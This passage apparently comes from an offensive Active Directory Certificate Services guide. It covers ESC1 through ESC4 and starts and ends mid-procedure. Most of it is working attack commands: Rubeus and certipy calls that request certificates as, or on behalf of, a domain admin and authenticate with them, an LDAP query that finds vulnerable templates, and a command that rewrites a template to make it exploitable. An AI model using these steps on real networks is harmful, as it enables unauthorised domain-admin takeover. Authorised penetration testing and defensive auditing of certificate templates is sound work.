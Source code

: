 3\) Authenticate using Rubeus or Certipy:

```javascript
PS C:\temp> .\Rubeus.exe asktgt /user:<domain_admin> /certificate:<domain_admin.pfx> /password:<domain_admin_password> /ptt
root@kali:~# certipy auth -pfx '<domain_admin.pfx>' -username '<domain_admin>' -domain '<domain_fqdn>' -dc-ip <domain_controller_ip>
```

**ESC2**

**Find template and request a certificate specifying the /altname as a domain admin like in ESC1**

```javascript
PS C:\temp> Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=<domain_name>,DC=local'
```

**ESC3**

**1) Request an enrollment agent certificate**

```javascript
root@kali:~# certipy req '<domain_user>:<domain_user_password>@<ca_dns_hostname>' -ca '<ca>' -template '<vulnerable_template>'
```

**2) Enrollment agent certificate to issue a certificate request on behalf of another user to a template that allow for domain authentication**

```javascript
root@kali:~# certipy req '<domain_user>:<domain_user_password>@<ca_dns_hostname>' -ca '<ca>' -template '<vulnerable_template>' -on-behalf-of '<domain_name>\<domain_admin>' -pfx 'domain_admin.pfx'
```

**3) Use Rubeus with the certificate to authenticate as the other user**

```javascript
PS C:\temp> .\Rubeus.exe asktgt /user:<domain_name>\<domain_admin> /certificate:domain_admin.pfx /password:<password>
```

## **Vulnerable Certificate Template Access Control – ESC4**

The security of certificate templates relies on proper access control. If access control is misconfigured, it can allow unintended or unprivileged users to modify sensitive security settings within the templates. For example, granting Domain Computers excessive permissions over a certificate template’s AD object can enable attackers with access to any AD computer to modify the template and exploit its vulnerabilities.

**1) Overwrite the configuration to make it vulnerable to ESC1**

```javascript
root@kali:~# certipy template '<domain_fqdn>/<domain_user>:<domain_user_password>@<ca_dns_hostname>' -hashes <hash> -template '<vulnerable_template>' -save-old
```

2\) Request a certificate based on the ESC4 template, just like ESC1
